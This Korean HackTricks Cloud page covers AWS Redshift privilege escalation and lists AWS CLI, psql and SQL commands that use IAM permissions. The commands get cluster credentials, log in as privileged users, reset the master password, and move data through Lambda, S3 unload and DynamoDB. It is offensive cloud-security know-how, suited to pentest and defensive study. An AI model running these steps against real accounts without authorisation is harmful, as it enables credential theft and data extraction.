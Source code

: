 # AWS - Redshift Privesc

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고**하거나 **PDF로 HackTricks 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 자신의 해킹 기법을 공유하세요.

</details>

## Redshift

RDS에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

이 권한을 사용하면 **모든 클러스터의 정보** (이름 및 클러스터 사용자 이름 포함)를 얻을 수 있으며, **액세스하기 위한 자격 증명**을 얻을 수 있습니다:

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾을 수 있습니다.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

이 권한을 사용하면 **모든 클러스터의 정보**를 얻을 수 있으며, 이를 액세스하기 위한 **자격증명**을 얻을 수 있습니다.\
참고로, postgres 사용자는 자격증명을 얻기 위해 사용된 IAM 신원이 가지고 있는 **권한**을 가지게 됩니다.

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾을 수 있습니다.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli에서 내부 postgres (redshift) 사용자의 **마스터 비밀번호를 수정**하는 것이 가능합니다 (아마도 이러한 권한이 필요하지만 아직 테스트하지 않았습니다):

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾을 수 있습니다.

## 외부 서비스에 접근하기

{% hint style="warning" %}
다음 리소스에 접근하려면 **사용할 역할을 지정**해야 합니다. Redshift 클러스터에는 사용할 수 있는 AWS 역할 목록이 할당될 수 있으며, ARN을 알고 있다면 해당 역할을 사용하거나 기본 역할을 사용하기 위해 "**default**"를 설정할 수 있습니다.

또한, [**여기에서 설명된대로**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift는 역할을 연결하여 추가 액세스를 얻을 수 있도록 허용하지만, 역할을 **쉼표로 구분하여** `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`와 같이 첫 번째 역할이 두 번째 역할을 가정할 수 있는 경우에만 가능합니다.
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html)에서 설명한대로, Redshift에서 람다 함수를 호출할 수 있습니다. 다음과 같이 사용할 수 있습니다:

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```

### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)에서 설명한 대로, **S3 버킷에 읽고 쓸 수 있습니다**:

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```

### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html)에서 설명한대로, dynamodb에서 데이터를 가져올 수 있습니다:

```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
데이터를 제공하는 Amazon DynamoDB 테이블은 AWS 리전과 동일한 리전에 생성되어야 합니다. 그러나 [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) 옵션을 사용하여 Amazon DynamoDB 테이블이 위치한 AWS 리전을 지정할 수도 있습니다.
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)를 확인하세요.

## 참고 자료

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>를 통해 AWS 해킹을 초보부터 전문가까지 배워보세요</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
